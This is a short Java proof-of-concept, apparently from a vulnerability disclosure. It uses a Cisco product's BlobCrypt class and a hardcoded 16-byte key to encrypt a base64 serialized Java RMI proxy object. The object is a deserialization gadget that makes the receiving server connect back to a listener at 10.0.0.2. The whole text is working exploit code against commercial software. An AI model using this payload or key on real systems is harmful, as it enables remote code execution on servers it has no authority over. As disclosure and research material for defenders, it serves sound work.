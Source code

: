 POC
---

    import java.security.InvalidKeyException;
    import java.util.Base64;
    import com.cisco.nm.cmf.security.jaas.BlobCrypt;

    public class JaasEncryptor {

            public static void main(String args[]) {
                    String b64Payload = "rO0ABXN9AAAAAQAaamF2YS5ybWkucmVnaXN0cnkuUmVnaXN0cnl4cgAXamF2YS5sYW5nLnJlZmxlY3QuUHJveHnhJ9ogzBBDywIAAUwAAWh0ACVMamF2YS9sYW5nL3JlZmxlY3QvSW52b2NhdGlvbkhhbmRsZXI7eHBzcgAtamF2YS5ybWkuc2VydmVyLlJlbW90ZU9iamVjdEludm9jYXRpb25IYW5kbGVyAAAAAAAAAAICAAB4cgAcamF2YS5ybWkuc2VydmVyLlJlbW90ZU9iamVjdNNhtJEMYTMeAwAAeHB3MQAKVW5pY2FzdFJlZgAIMTAuMC4wLjIAAAG7AAAAAEBnvkQAAAAAAAAAAAAAAAAAAAB4";

                    byte[] payload = Base64.getDecoder().decode(b64Payload);
                    byte[] key = new byte[]{-100, 76, -23, 87, 125, 0, 5, 94, 12, 76, 37, -84, 36, 78, 123, 5};

                    byte[] enc = BlobCrypt.encryptArray(payload, key);
                    System.out.println("Encrypted payload: " + Base64.getEncoder().encodeToString(enc));
                    byte[] dec = BlobCrypt.decryptArray(enc, key);
            }
    }